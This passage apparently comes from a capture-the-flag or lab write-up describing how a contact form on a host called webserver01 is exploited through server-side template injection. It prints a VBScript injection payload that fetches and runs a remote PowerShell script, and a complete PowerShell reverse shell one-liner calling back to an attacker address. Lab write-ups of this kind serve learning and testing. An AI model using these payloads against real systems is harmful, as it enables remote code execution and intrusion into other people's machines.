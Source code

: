 ![](/assets/images/2022-03-09-15-50-47.png)
So there we have it! Contact form is vulnerable to SSTI,
![](/assets/images/2022-03-09-15-51-47.png)
# Initial Foothold exploiting SSTI on webserver01
We will use following payload for SSTI in order to get shell. Payload is VB Script.
```vb
<%= CreateObject("Wscript.Shell").exec("powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/shell.ps1')").StdOut.ReadAll() %>
```
Shell ps1 will be simple PS TCP Oneliners
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.17",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```